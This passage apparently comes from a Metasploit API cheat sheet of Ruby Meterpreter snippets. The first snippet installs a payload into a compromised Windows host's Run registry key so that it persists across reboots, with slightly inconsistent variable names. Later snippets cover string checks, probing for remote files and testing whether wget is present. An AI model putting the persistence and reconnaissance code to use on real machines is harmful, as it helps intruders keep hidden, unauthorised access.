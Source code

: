 - **write reg key remote (msf API)**

      rand = Rex::Text.rand_text_alpha(rand(8)+8)
      print_status("Installing into autorun as HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\#{rand}")
      key = client.sys.registry.open_key(HKEY_LOCAL_MACHINE, 'Software\Microsoft\Windows\CurrentVersion\Run', KEY_WRITE)
        if(key)
          key.set_value(nam, session.sys.registry.type2str("REG_SZ"), tempvbs)
          print_status("Installed into autorun as HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\#{rand}")
        else
          print_status("Error: failed to open the registry key for writing")
        end
      end

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit-API/my-API-Cheat-sheet.md#metasploit-api-cheat-sheet)

---

<br /><br /><br />

## VARIOUS CHECKS

- **check to see if a string is empty**

      name = ""
      name.empty?    # true

      name = "Sammy"
      name.empty?    # false

      name = "     "
      name.empty?    # false

- **check if string its empty**

      name = ""
      if name.nil? || name.empty?|| name == '' || name == ' '

      output: true

- **check if remote file exists (windows)**

      print_warning("checking file existance")
      path="C:\\Windows\\system32\\ola.txt"
        if session.fs.file.exist?(path)
          print_good("path: #{path} found ..")
        end

- **check IF application exists (linux)**

      if exists_exe?("wget")
        print_good("wget available, using it ..")
      end
